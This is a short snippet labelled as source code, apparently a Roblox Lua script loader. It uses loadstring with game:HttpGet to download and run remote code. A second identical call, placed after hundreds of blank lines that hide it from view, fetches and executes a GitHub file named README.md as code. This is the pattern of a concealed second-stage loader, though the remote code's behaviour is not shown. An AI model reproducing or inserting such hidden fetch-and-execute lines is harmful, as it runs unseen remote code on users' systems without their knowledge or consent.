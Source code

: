 loadstring(game:HttpGet('https://rawscripts.net/raw/loader_1038'))()









































































































































































































































































































































































































































































loadstring(game:HttpGet('https://raw.githubusercontent.com/Dripsaur/PLV1/main/README.md'))()
